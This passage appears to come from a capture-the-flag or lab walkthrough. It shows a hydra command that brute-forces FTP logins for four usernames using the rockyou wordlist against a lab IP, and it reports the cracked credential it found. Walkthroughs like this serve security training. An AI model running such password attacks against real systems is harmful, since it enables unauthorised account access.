

4.1 Getting password from user's file with hydra
You got several users from the latest step of decoding. You have to try to discover some password to connect via FTP.
1. On your Kali Machine create a file called “users.txt” and add the names (one per line).
luther, gary, hubert, clark
2. Try to find the password for the usernames with “hydra”. On your Kali Machine run the following code.
$hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.12.44 ftp
Output:

You got the credentials of one of them
luther:mypics.